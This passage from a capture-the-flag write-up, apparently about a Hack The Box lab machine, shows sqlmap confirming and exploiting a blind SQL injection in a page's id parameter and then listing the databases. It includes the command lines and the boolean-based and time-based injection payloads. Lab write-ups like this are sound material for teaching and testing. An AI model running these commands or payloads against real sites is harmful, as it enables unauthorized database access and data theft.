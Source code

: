 #### sqlmap

Scripting this is nice, but I can use `sqlmap` to find this and exploit it more quickly (though not that much more quickly):

```

root@kali# sqlmap -u https://www.nestedflanders.htb/index.php?id=587 --level=5 --risk=2 --batch
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.3.4#stable}
|_ -| . ["]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 08:20:35 /2019-06-22/

[08:20:35] [INFO] resuming back-end DBMS 'mysql' 
[08:20:35] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=587' AND 4662=4662-- bcKm

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind
    Payload: id=587' AND SLEEP(5)-- BHIV
---
[08:20:35] [INFO] the back-end DBMS is MySQL
web application technology: Nginx 1.10.3
back-end DBMS: MySQL 5 (MariaDB fork)
[08:20:35] [INFO] fetched data logged to text files under '/root/.sqlmap/output/www.nestedflanders.htb'

[*] ending @ 08:20:35 /2019-06-22/

```

#### Enumerate DB

The thing about blind SQLI is that they are slow. I don’t want to just do `--dump` or `--dump-all`, as it will take forever. I will start with some basic enumeration. List the databases:

```

root@kali# sqlmap -u https://www.nestedflanders.htb/index.php?id=587 --level=5 --risk=2 --batch --dbs
...[snip]...
available databases [2]:
[*] information_schema
[*] neddy

```
